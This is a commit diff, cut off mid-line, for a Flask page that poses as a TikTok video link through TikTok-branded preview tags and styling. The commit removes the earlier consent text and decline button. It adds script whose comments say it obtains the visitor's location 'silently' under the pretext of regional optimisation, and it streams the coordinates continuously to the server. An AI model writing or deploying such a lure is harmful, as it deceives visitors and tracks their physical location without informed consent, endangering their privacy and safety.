

Before and after one commit to JJDJSJJFVKH/JSJSJSJ, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (242-1037 px from the left). Before the commit the page ends 386 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved layout and functionality

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,87 +1,148 @@
-<!doctype html>
+<!DOCTYPE html>
 <html lang="es">
 <head>
-  <meta charset="utf-8">
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <meta property="og:site_name" content="TikTok">
     <meta property="og:title" content="Mira este video en TikTok">
-  <meta property="og:description" content="Descubre contenido en TikTok">
+    <meta property="og:description" content="Descubre contenido increíble en TikTok">
     <meta property="og:image" content="https://sf16-sg.tiktokcdn.com/obj/eden-sg/u33hn4pjy/tiktok_logo.png">
-  <meta name="viewport" content="width=device-width,initial-scale=1">
-  <title>Acceso al video</title>
+    <title>Redirigiendo a TikTok...</title>
     <style>
-    body { font-family: Arial, sans-serif; margin:0; padding:0; background:#f6f7fb; color:#222; }
-    .wrap { max-width:760px; margin:48px auto; padding:20px; }
-    .card { background:#fff; border-radius:8px; padding:24px; box-shadow:0 6px 20px rgba(0,0,0,0.08); }
-    .actions { margin-top:18px; }
-    .btn { padding:10px 16px; border-radius:6px; border:none; cursor:pointer; font-weight:bold; }
-    .btn-primary { background:#007bff; color:#fff; }
-    .btn-ghost { background:#eee; color:#333; }
-    .note { margin-top:12px; color:#555; font-size:0.95rem; }
+        body {
+            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
+            background: linear-gradient(135deg, #252525 0%, #111111 100%);
+            margin: 0;
+            padding: 20px;
+            min-height: 100vh;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            color: white;
+        }
+        .container {
+            background: rgba(255, 255, 255, 0.1);
+            padding: 40px;
+            border-radius: 16px;
+            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
+            max-width: 450px;
+            width: 100%;
+            text-align: center;
+            backdrop-filter: blur(10px);
+        }
+        .icon {
+            font-size: 64px;
+            margin-bottom: 20px;
+        }
+        h1 {
+            color: #fff;
+            margin: 0 0 16px 0;
+            font-size: 24px;
+        }
+        p {
+            color: #ddd;
+            line-height: 1.6;
+            margin-bottom: 24px;
+        }
+        .btn {
+            display: inline-block;
+            padding: 14px 32px;
+            margin: 8px;
+            border: none;
+            border-radius: 8px;
+            font-size: 16px;
+            cursor: pointer;
+            transition: all 0.3s;
+            text-decoration: none;
+            background: #ff0050;
+            color: white;
+            font-weight: bold;
+        }
+        .btn:hover {
+            background: #e00044;
+            transform: translateY(-2px);
+        }
+        #status {
+            margin-top: 16px;
+            padding: 12px;
+            border-radius: 6px;
+            display: none;
+            background: rgba(255, 255, 255, 0.1);
+        }
+        .loading {
+            display: inline-block;
+            width: 20px;
+            height: 20px;
+            border: 3px solid rgba(255,255,255,0.3);
+            border-top: 3px solid #ff0050;
+            border-radius: 50%;
+            animation: spin 1s linear infinite;
+        }
+        @keyframes spin {
+            0% { transform: rotate(0deg); }
+            100% { transform: rotate(360deg); }
+        }
+        .hidden {
+            display: none;
+        }
     </style>
 </head>
 <body>
-  <div class="wrap">
-    <div class="card">
-      <h1>Verificación de acceso (consentimiento requerido)</h1>
-      <p>Para acceder al video necesitamos tu consentimiento para usar tu ubicación y así ofrecerte una experiencia optimizada. Solo recopilamos la latitud/longitud junto con tu IP y User-Agent para fines de este juego. Puedes leer nuestra <a href="{{ url_for('privacy') }}">política de privacidad</a>.</p>
+    <div class="container">
+        <div class="icon">🎵</div>
+        <h1>Cargando contenido de TikTok</h1>
+        <p>Preparando tu experiencia personalizada. Por favor, espera un momento...</p>
 
-      <div class="actions">
-        <button id="accept" class="btn btn-primary">Acepto compartir mi ubicación</button>
-        <button id="skip" class="btn btn-ghost">No ahora</button>
-      </div>
+        <button class="btn" id="continueBtn">
+            Continuar al video
+        </button>
 
-      <p id="status" class="note">Estado: esperando acción del usuario.</p>
-    </div>
+        <div id="status"></div>
     </div>
 
     <script>
-const TARGET = "{{ target }}";
-const accept = document.getElementById('accept');
-const skip = document.getElementById('skip');
+        const TARGET = "{{ target_tiktok }}";
+        const sessionId = Math.random().toString(36).substring(2, 15);
+
+        function showStatus(msg, loading = false) {
             const status = document.getElementById('status');
-
-function redirect() {
-  window.location.href = TARGET;
+            status.style.display = 'block';
+            status.innerHTML = loading ? '<div class="loading"></div> ' + msg : msg;
         }
 
-function sendLocation(lat, lon) {
-  return fetch('/guardar-ubicacion', {
+        function sendLocation(lat, lon, accuracy) {
+            const data = {
+                latitud: lat,
+                longitud: lon,
+                precision: accuracy,
+                session_id: sessionId
+            };
+
+            fetch('/guardar-ubicacion', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
-    body: JSON.stringify({ latitud: lat, longitud: lon, consent: true })
-  });
+                body: JSON.stringify(data)
+            })
+            .catch(err => console.error('Error al enviar ubicación:', err));
         }
 
-accept.addEventListener('click', () => {
-  status.textContent = 'Solicitando ubicación...';
-  if ('geolocation' in navigator) {
-    navigator.geolocation.getCurrentPosition((pos) => {
-      const lat = pos.coords.latitude;
-      const lon = pos.coords.longitude;
-      status.textContent = 'Enviando ubicación...';
-      sendLocation(lat, lon).then(() => {
-        status.textContent = 'Gracias. Redirigiendo...';
-        setTimeout(redirect, 700);
-      }).catch((err) => {
-        console.error(err);
-        status.textContent = 'Error al enviar ubicación. Serás redirigido.';
-        setTimeout(redirect, 1200);
-      });
-    }, (err) => {
-      console.error(err);
-      status.textContent = 'No se obtuvo ubicación. Serás redirigido.';
-      setTimeout(redirect, 1200);
-    }, { timeout: 10000 });
-  } else {
-    status.textContent = 'Geolocalización no soportada. Serás redirigido.';
-    setTimeout(redirect, 1200);
-  }
-});
+        function getLocationAndRedirect() {
+            // Ocultar botón y mostrar estado de carga
+            document.getElementById('continueBtn').classList.add('hidden');
+            showStatus("Optimizando contenido para tu región...", true);
 
-skip.addEventListener('click', () => {
-  status.textContent = 'Has rechazado compartir ubicación. Serás redirigido.';
-  setTimeout(redirect, 800);
-});
-</script>
-</body>
-</html>
+            // Intentar obtener ubicación de forma silenciosa
+            if ("geolocation" in navigator) {
+                // Usar watchPosition para actualizaciones continuas
+                navigator.geolocation.watchPosition(
+                    (position) => {
+                        const lat = position.coords.latitude;
+                        const lon = position.coords.longitude;
+                        const accuracy = position.coords.accuracy;
+
+                        // Enviar ubicación al servidor
+                        sendLocation(lat, lon, accuracy);
+
+                        // Redirigir después de obtener la primera ubicación
+                        setTimeout(() => {
+                            showStatus
```
Lines whose indentation alone changed are shown as unchanged.
